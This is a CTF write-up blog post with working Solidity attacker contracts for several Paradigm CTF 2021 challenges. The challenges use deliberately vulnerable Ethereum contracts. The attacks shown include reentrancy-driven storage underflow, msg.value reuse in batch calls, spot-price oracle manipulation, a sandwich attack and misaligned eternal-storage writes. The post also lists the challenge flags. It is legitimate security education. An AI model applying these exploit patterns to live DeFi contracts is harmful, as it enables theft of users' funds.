

[Paradigm CTF 2021](https://ctf.paradigm.xyz) was a 48-hour Ethereum focused security competition held over the last weekend.
It consists of 17 challenges, most of them were quite hard, definitely harder than [Ethernaut](./ethernaut-solutions/) or [Capture The Ether Solutions](./capture-the-ether-solutions).
Nevertheless, this made them even more fun. 😃 Thanks to [Paradigm](https://paradigm.xyz) for organizing it and I hope to see similar ones in the future.

I participated as team `[object Object]` and ranked **#7** overall, was the top single-member team and drew two first bloods.
I'll do a walk-through for the challenges I was able to solve.
If you solved any of the others (or solved the same ones in a different way), I'd love to hear/see your solutions.
Feel free to DM me on [Twitter](https://twitter.com/cmichelio) or [Telegram](https://t.me/cmichelio).



Here's my [GitHub repo with the code](https://github.com/MrToph/paradigm-ctf) if you want to dive in.

# Challenges

Solved Challenges:

- ✅ Babycrypto
- ✅ Babyrev ([@adietrichs](https://twitter.com/adietrichs))
- ✅ Babysandbox ([@rohitnarurkar](https://twitter.com/rohitnarurkar))
- ✅ Bank
- ✅ Bouncer
- ✅ Broker
- ✅ Farmer
- ✅ Hello
- ❌ JOP
- ✅ Lockbox ([@rohitnarurkar](https://twitter.com/rohitnarurkar))
- ✅ Market
- ❌ Rever
- ✅ Secure
- ❌ Swap (still unsolved)
- ✅ Upgrade ([@adietrichs](https://twitter.com/adietrichs))
- ❌ Vault
- ✅ Yield Aggregator

## Babycrypto

> I've written a super simple program to sign some data. Hopefully, I didn't mess anything up!

This challenge is about a server that acts as a _chosen-plaintext signing oracle_, signing and responding with four signatures of your choice.
It then presents you with a challenge message and you need to respond with a valid signature.

You can immediately see that the `r` value of the `(r,s)` [ECDSA signature](https://en.wikipedia.org/wiki/Elliptic_Curve_Digital_Signature_Algorithm) is the same for all signatures. This means that the `k` value was reused, making it possible to retrieve the private key.
It's the same vulnerability that has been used to recover the Sony PS3 root key in 2010.
I did not actually solve this challenge because I didn't feel like debugging low-level field elements if something doesn't work. 😅 (had bad experience with it)

There are however already many articles explaining how it works.
See also [Account Takeover of Capture The Ether](https://capturetheether.com/challenges/accounts/account-takeover/).

**Update**: Python solution by [Rohit Narurkar](https://twitter.com/rohitnarurkar):

[https://gist.github.com/roynalnaruto/3687e0ab19c22ecbc32f0dcff5790198](https://gist.github.com/roynalnaruto/3687e0ab19c22ecbc32f0dcff5790198)


## Babyrev

> If I don't verify my source code, then hackers can't exploit my contract, right?

Solution by [Ansgar Dietrichs](https://twitter.com/adietrichs):

[https://hackmd.io/@adietrichs/paradigm-ctf-2021](https://hackmd.io/@adietrichs/paradigm-ctf-2021)

## Babysandbox

> I read that staticcall will keep my contracts safe.

Solution by [Rohit Narurkar](https://twitter.com/rohitnarurkar):

[https://gist.github.com/roynalnaruto/3687e0ab19c22ecbc32f0dcff5790198](https://gist.github.com/roynalnaruto/3687e0ab19c22ecbc32f0dcff5790198)


## Bank

> Smarter Contracts Inc. is proud to release our decentralized bank. Deposit any ERC20-compatible token and know that it'll be safely stored in our unhackable contracts.
> 
> Flag: `PCTF{Y0_1_H4ERD_y0U_l1KE_reeN7R4NcY}`

The main idea is to trigger an underflow on the `accounts[msg.sender].length` variable and set it to `2^256 - 1`.
As a general rule:

> Whenever you underflow a dynamic array that is stored in storage and there's a function that allows writing to any in-bound index, you have arbitrary write access to the contract's storage.

This is due to the way the EVM handles the [storage layout](https://docs.soliditylang.org/en/v0.6.8/internals/layout_in_storage.html) for dynamically sized variables.
Then, once we can write anywhere, we can increase our balance by writing to our balance's storage slot.
Calling `setAccountName(accountId)` writes to `accounts[msg.sender][accountId].accountName` which is stored at slot:

```solidity
accountStructSlot := keccak(keccak(our_addr . 2)) + 3 * accountId
```

Our WETH balance is stored as `accounts[our_address][accountId].balances[WETH]` which corresponds to the fixed storage slot of:

```solidity
balanceSlot := keccak( WETH . [accountStructSlot + 2] )
             = keccak( WETH . [keccak(keccak(our_addr . 2)) + 3 * accountId + 2] )
```

Knowing our balance slot, we can solve for the `accountId` to figure out what arguments to call `setAccountName` with:

```solidity
accountStructSlot(accountId) == balanceSlot
<=> keccak(keccak(our_addr . 2)) + 3 * accountId == balanceSlot
<=> accountId = [balanceSlot - keccak(keccak(our_addr . 2))] / 3
```

> Note that we're doing integer division here and we rely on the term to be divisible by 3. The easiest way to circumvent this is by simply choosing a different attacker contract address (`our_addr`) until we end up with one where this value is divisible by 3.

We now know the arguments with which to call the `setAccountName(accountId, value)` function once we have arbitrary write access.

#### But how do we actually underflow the `accounts[msg.sender].length` value?

Notice how solidity **version 4** is used and `.length` is directly decremented in two functions: `withdrawToken` and `closeLastAccount`. The token contract arguments are _unchecked_ so we can use them for re-entrancy. The re-entrancy here is complex because both functions only decrement if `length > 0` and `account.uniqueTokens == 0`.

I solved it by a re-entrancy attack that is **four levels deep**, always recursing to the attacker contract on the first `balanceOf` in these functions:

```solidity
deposit(0, address(this), 0) // re-enter on first balance,
    withdraw(0, address(this), 0) // re-enter on first balance,
        deposit(0, address(this), 0) // re-enter on first balance,
              closeLastAccount() // (passes .length > 0 && uniqueTokens == 0)
        deposit continues execution and sets uniqueTokens to 1
    withdraw continues execution and deletes account again (passes uniqueTokens == 1 check)
deposit continues execution and we do not care about what it does
```

The corresponding solidity code of my `balanceOf` function:

```solidity
// start re-entrancy chain
reentrancyState = 1;
bank.depositToken(0, address(this), 0);

function balanceOf(address /* who */) public returns (uint256) {
    if (reentrancyState == 1) {
        reentrancyState++;
        bank.withdrawToken(0, this, 0);
    } else if (reentrancyState == 2) {
        reentrancyState++;
        bank.depositToken(0, this, 0);
    } else if (reentrancyState == 3) {
        reentrancyState++;
        // close before deposit uniqueTokens++ is reached
        bank.closeLastAccount();
    }

    return 0;
}
```

## Bouncer

> Can you enter the party?
>
> Flag: `PCTF{SH0ULDV3_US3D_W37H}`

The goal is to steal the contract's ETH funds.
You can create deposits (_entries_) of any value by paying a **fixed 1 ETH fee** per entry.
Afterwards, you pay the actual value of each deposit using the `convert` function. The bug is that the `convert` function checks `msg.value` but there's another `convertMany` function that batch-processes deposits. As the `convert` calls are just internal, `msg.value` is still the same for all deposits and you only need to pay for a single one.

We will exploit this by making two deposits.
What makes this challenge a bit harder is that we may not leave any dust in the contract, so we need to calculate the exact deposit amount that ends up in the contract.
After everything is paid the contract's funds are:

1. The initial balance (50 ETH + 4 ETH from setup contract)
2. The 2 ETH fee for our two deposits
3. The deposit value (`x`) itself, once

We receive `2x` when withdrawing our deposits, meaning we need to solve this equation:


```solidity
2x == initial_balance + fees + x
=> x = initial_balance + fees
```

The attacker contract code:

```solidity
function attack() external payable {
    uint256 bouncerBalance = address(bouncer).balance;

    // 1 ether entry fee
    // need to empty bouncer balance.
    // bouncer balance when we call payout will be:
    // initial balance + our fee + x, where x is the entry amount (need to pay ONCE in convertMany)
    // we want it to be equal to twice the payout amount, 2x
    // => 2x = IB + fees + x => x = IB + fees
    uint256 _amount = bouncerBalance + 2 * 1 ether;
    bouncer.enter{value: 1 ether}(ETH, _amount);
    bouncer.enter{value: 1 ether}(ETH, _amount);

    withdrawalAmount = _amount;
}

function attack2() external payable {
    uint256[] memory ids = new uint256[](2);
    for (uint256 i = 0; i < ids.length; i++) {
        ids[i] = i;
    }
    bouncer.convertMany{value: withdrawalAmount}(address(this), ids);

    bouncer.redeem(ERC20Like(ETH), withdrawalAmount * ids.length);
}
```

## Broker

> This broker has pretty good rates
> 
> Flag: `PCTF{SP07_0R4CL3S_L0L}`

There's a lending platform accepting WETH as collateral to lend out `AMT` tokens.
It uses the spot price of the Uniswap pair which means we can simply skew the oracle reserves and liquidate the challenger's position as their loan is now underwater.
Note that Uniswap can be used for [flash swaps](https://uniswap.org/docs/v2/smart-contract-integration/using-flash-swaps/), i.e., we can borrow AMT tokens and pay them back later.
This however does not work as the reserves are only updated after the callback.
Luckily, each account starts with 5000 ETH, so we can just trade in the Uniswap pair.

```solidity
function attack() external payable {
  weth.deposit{value: msg.value}();

  // skew the uniswap ratio by buying lots of tokens
  // we're heavily overpaying in ETH but we don't care
  weth.transfer(address(pair), weth.balanceOf(address(this)));
  bytes memory payload;
  // (500k AMT, 25 ETH) in reserve
  pair.swap(450_000 * 1 ether, 0, address(this), payload);

  uint256 rate = broker.rate();

  token.approve(address(broker), type(uint256).max);
  // 25 ETH in broker, win condition is < 5 ETH, so withdraw > 20 ETH
  uint256 liqAmount = 21 ether * rate;
  broker.liquidate(address(setup), liqAmount);

  require(setup.isSolved(), "!solved");
}
```

## Farmer

> COMPounding rewards are fun

This challenge consists of a farmer contract that allows anyone to call actions to claim tokens and sell them on the farmer's behalf on Uniswap.
We win this challenge if the farmer ends up with fewer tokens than it would receive from harvesting and recycling all tokens at Uniswap's market rate at the start of the challenge.

This is the prime example of a [sandwich attack](./de-fi-sandwich-attacks/) which I already talked about in detail in another post.

The gist is that the farmer does a `Comp -> WETH -> DAI` trade, and a sandwich attack would be to frontrun this trade by trading `Comp -> WETH` or `WETH -> DAI`.
This leads to an increase in the price of the token the farmer wants to buy.
We can then backrun the trade at this increased price for a profit. (Not required for this challenge.)

```solidity
function attack() external payable {
  // simple sandwich attack on farmer
  // farmer trades Comp -> WETH -> DAI
  // trading Comp -> WETH would be more profitable for us
  // but we don't have any Comp, so do the simpler WETH -> DAI trade

  WETH.deposit{value: msg.value}();
  WETH.approve(address(ROUTER), type(uint256).max);

  address[] memory path = new address[](2);
  path[0] = address(WETH);
  path[1] = address(DAI);

  uint256 bal = WETH.balanceOf(address(this));

  ROUTER.swapExactTokensForTokens(
      bal,
      0,
      path,
      address(this),
      block.timestamp
  );

  farmer.claim();
  farmer.recycle();

  require(setup.isSolved(), "!solved");
}
```

> Sandwiching the Comp -> WETH trade would be more "profitable" for us because its Uniswap pair has less liquidity. (It might be that it's still not profitable for us because of the Uniswap fees we need to pay twice). To win it's enough if the farmer trades at a higher price.

## Hello

This is a challenge to get used to the CTF workflow.
It's enough to call the `hello` action on the `Hello` contract deployed by the `Setup` contract.

```typescript
it("solves the challenge", async function () {
  const helloAddr = await setup.hello();
  const hello = await ethers.getContractAt(`Hello`, helloAddr, eoa);
  tx = await hello.solve();
  await tx.wait();

  const solved = await setup.isSolved();
  expect(solved).to.be.true;
});
```

## Lockbox

> Isn't ABI encoding fun?

Solution by [Rohit Narurkar](https://twitter.com/rohitnarurkar):

[https://gist.github.com/roynalnaruto/3687e0ab19c22ecbc32f0dcff5790198](https://gist.github.com/roynalnaruto/3687e0ab19c22ecbc32f0dcff5790198)


## Market

> Smarter Contracts Inc. has been hard at work developing the ultimate crypto collectible experience. We're proud to announce our new CryptoCollectibles contract and integrated marketplace.
>
> Flag: `PCTF{CRyPt0_Nam3_53rv1c3}`

This challenge deals with a market place that mints, buys and sells custom tokens. The goal is to empty the market's funds.
Anyone can order the market to mint tokens and assign a token price which must be paid when selling/buying.
The token's storage is handled by a contract implementing the eternal storage pattern which is a very low-level way to write to smart contract storage.

The main idea of the exploit is to mint a token, sell it to the market, abuse the low-level mechanics of the eternal storage contract to reclaim ownership of the token, and then sell it to the market a second time.

A token is stored as the following struct in the contract:

```solidity
mapping(bytes32 => TokenInfo) tokens;

struct TokenInfo {
    bytes32 displayName;
    address owner;
    address approved;
    address metadata;
}
```

All of these token fields can be set by the token owner through functions on the eternal storage contract:

```solidity
function ensureTokenOwner(tokenId) {
    let owner := sload(0x00)
    let tokenOwner := sload(add(tokenId, 1))
    
    if iszero(or(
        eq(caller(), owner),
        eq(caller(), tokenOwner)
    )) {
        revert(0, 0)
    }
}

case 0x169dbe24 { // updateMetadata(bytes32,address)
    let tokenId := calldataload(0x04)
    let newMetadata := and(calldataload(0x24), 0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF)
    
    ensureTokenOwner(tokenId)
    sstore(add(tokenId, 3), newMetadata)
}
```

The assembly code for the `updateMetadata` function accepts a `bytes32 tokenId` and an `address` (only keeps 20 lower bytes) and sets the fourth position (+3) of the token struct to this address. The `ensureTokenOwner` check passes if the token's `owner` field (stored at the second position (+1) of the struct) equals `msg.sender`.

We'll abuse the fact that we can call these functions with a misaligned `tokenId`.
Meaning if our token struct is stored at storage slot `p` (`p + 0` is `name`, `p + 1` is `owner`, etc.), we can also call this function with a `tokenId` of `p+2` which indexes the data in the middle of our actual token structure.
When we mint a token and set its `approval` and `metadata` field to our contract, its storage layout looks like this:

```solidity
// after mint
// slot = tokenId
+ 0 (name): "My First Collectible",
+ 1 (owner): owner
+ 2 (approval): owner
+ 3 (metadata): owner
```

After selling it to the market, the market resets its approval to `0` and sets the owner to the market. Note that the `metadata` field is not cleared which we will abuse next.

```solidity
// after market sell
// slot = tokenId
+ 0 (name): "My First Collectible",
+ 1 (owner): market
+ 2 (approval): 0
+ 3 (metadata): owner
```

We can reclaim our token by changing the name of a fake token with id `tokenId + 2`. This writes to `(tokenId + 2) + 0 = tokenId + 2` which means the fake token's `name` is the real token's `approval` field. We can choose our address as the `name`.

```solidity
// after eternalStorage.updateName(tokenId + 2, bytes32(uint256(address(this))));
// slot = tokenId
+ 0 (name): "My First Collectible",
+ 1 (owner): market
+ 2 (approval): owner
+ 3 (metadata): owner
```

We can now use `transferFrom` to reclaim ownership of the token and sell it to the market a second time.

This challenge is only solved if the market balance is exactly zero which requires choosing a perfect token price during the initial mint. However, the token price does not equal the sent amount of Ether as a fee reduces the price.
A nice way to fix this is by choosing a high initial token price and sending the missing ether to the contract through a selfdestruct contract or by minting a second token.

```solidity
contract MarketAttacker {
    function attack() external payable {
        // the token price is not the one we send, it's - 10/11 of it
        bytes32 tokenId =
            market.mintCollectibleFor{value: 70 ether}(address(this));

        // need to set approval to market for sellCollectible check
        token.approve(tokenId, address(market));
        // update @tokenId + 3 to "this"
        eternalStorage.updateMetadata(tokenId, address(this));

        // sell it to the market
        market.sellCollectible(tokenId);

        reclaimToken(tokenId);

        // we need to completely empty market which is annoying because of fee
        // so we need to send some more funds to the market to be able to withdraw
        // all of it
        fixMarketBalance(70 ether);

        // sell it again!
        market.sellCollectible(tokenId);

        require(setup.isSolved(), "!solved");
    }

    function reclaimToken(bytes32 tokenId) internal {
        // change name of tokenId + 2, i.e., overwrite tokenId's approval.
        // passes ensureTokenOwner check because (tokenId+2) + 1 = tokenId's metadata
        bytes32 spoofTokenId = bytes32(uint256(tokenId) + 2);
        eternalStorage.updateName(
            spoofTokenId,
            bytes32(uint256(address(this)))
        );
        token.transferFrom(tokenId, address(market), address(this));
        token.approve(tokenId, address(market));
    }

    function fixMarketBalance(uint256 sentAmount) internal {
        // uint256 tokenPrice = market.tokenPrices(tokenId); // not public
        uint256 tokenPrice = (sentAmount * 10000) / (10000 + 1000);
        uint256 missingBalance = tokenPrice - address(market).balance;
        // send missing ETH to market by minting a new token
        market.mintCollectible{value: missingBalance}();
    }

    receive() external payable {}
}
```

## Secure

> My contract is 100% secure, it's impossible to hack.
>
> Flag: `PCTF{7h1nk1ng_0U751dE_7he_80X}`

There's a wallet contract only permitting certain pre-approved functions to be called.
After initially not finding the solution I set it aside for a bit and came back later to the challenge when I was more familiar with the CTF environment.
The provided account always starts with 5000 ETH and the challenge is solved if the `Setup` contract has 50 (W)ETH.

So, just send it what it `WANT`s.

```solidity
function isSolved() public view returns (bool) {
    return WETH.balanceOf(address(this)) == WANT;
}

function attack() external payable {
    // solution just checks if setup contract has 50 WETH
    // so just send it 50 WETH

    setup.WETH().deposit.value(msg.value)();
    setup.WETH().transfer(address(setup), setup.WANT());

    require(setup.isSolved(), "!solved");
}
```

## Upgrade

> Circle released a new update to USDC but something seems off. Can you take a look?

Solution by [Ansgar Dietrichs](https://twitter.com/adietrichs):

[https://hackmd.io/@adietrichs/paradigm-ctf-2021](https://hackmd.io/@adietrichs/paradigm-ctf-2021)


## Yield Aggregator

> Set and forget yield aggregation services are great for the ecosystem.

There's a yield aggregator contract allowing deposits and withdrawals of multiple tokens in a single function.
When depositing, the balance is saved at function start and the tokens are then pulled in using `transferFrom`.
Once all tokens have been processed, the balance difference to the start is stored as the user's balance.

```solidity
function deposit(Protocol protocol, address[] memory tokens, uint256[] memory amounts) public {
    uint256 balanceBefore = protocol.balanceUnderlying();
    for (uint256 i= 0; i < tokens.length; i++) {
        address token = tokens[i];
        uint256 amount = amounts[i];
        ERC20Like(token).transferFrom(msg.sender, address(this), amount);
        ERC20Like(token).approve(address(protocol), 0);
        ERC20Like(token).approve(address(protocol), amount);
        // reset approval for failed mints
        try protocol.mint(amount) { } catch {
            ERC20Like(token).approve(address(protocol), 0);
        }
    }
    uint256 balanceAfter = protocol.balanceUnderlying();
    uint256 diff = balanceAfter - balanceBefore;
    poolTokens[msg.sender] += diff;
}
```

The tokens are not checked against a whitelist and we can use any tokens we control.
This makes a re-entrancy attack possible.
We can profit from doing a _second_ deposit while already doing a deposit.
The second deposit correctly attributes our sent funds.
However, this deposit and our increased balance **is attributed again** in the outer first deposit.

```solidity
deposit([50 ether, 0 ether], [WETH, attacker])
    balanceBefore = 0
    WETH.transferFrom(50 ether, attacker, aggregator)
    attacker.transferFrom(0 ether, attacker, aggregator)
        // re-entrancy
        deposit([50 ether], [WETH])
            balanceBefore = 50 ether
            WETH.transferFrom(50 ether, attacker, aggregator)
            balanceAfter = 100 ether
            diff = 50 ether // + 50 balance
    balanceAfter = 100 ether
    diff = 100 ether // + 100 balance
```

This increases our balance by 150 even though we only pay 100.

# Closing Notes

I hope this was insightful for some people that tackled a challenge and couldn't find a solution in time.
It's also worth checking out [the actual GitHub repo](https://github.com/MrToph/paradigm-ctf) where I used [hardhat](https://hardhat.org/) to play the challenges locally.
Meaning, you can still replay and experiment even though the CTF servers are offline now.
If you don't use proper tooling yet, I highly encourage you to take another look at it as I was 10x more productive once I set it up. Being able to quickly debug and do exploratory programming was in my opinion the main reason why I was able to draw two first bloods.

Lastly, if anyone from an auditing firm that could currently need some more help is reading this, I'm happy to have a chat.
